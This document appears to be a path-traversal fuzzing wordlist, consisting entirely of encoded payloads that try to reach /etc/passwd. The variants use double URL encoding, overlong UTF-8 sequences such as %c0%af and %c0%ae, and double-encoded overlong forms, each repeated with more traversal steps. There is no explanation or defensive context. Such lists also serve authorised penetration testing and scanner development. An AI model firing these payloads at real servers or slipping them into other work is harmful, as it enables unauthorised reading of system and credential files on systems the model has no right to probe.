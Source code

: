 %252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c/etc/passwd
%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c/etc/passwd
%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c/etc/passwd
%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c/etc/passwd
%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c/etc/passwd
..%c0%af/etc/passwd
..%c0%af..%c0%af/etc/passwd
..%c0%af..%c0%af..%c0%af/etc/passwd
..%c0%af..%c0%af..%c0%af..%c0%af/etc/passwd
..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af/etc/passwd
..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af/etc/passwd
..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af/etc/passwd
..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af/etc/passwd
%c0%ae%c0%ae//etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae//etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae//etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae//etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae//etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae//etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae//etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae//etc/passwd
%c0%ae%c0%ae%c0%af/etc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af/etc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af/etc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af/etc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af/etc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af/etc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af/etc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af/etc/passwd
..%25c0%25af/etc/passwd
..%25c0%25af..%25c0%25af/etc/passwd
..%25c0%25af..%25c0%25af..%25c0%25af/etc/passwd
..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af/etc/passwd
..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af/etc/passwd
..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af/etc/passwd
..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af/etc/passwd
..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af/etc/passwd
%25c0%25ae%25c0%25ae//etc/passwd
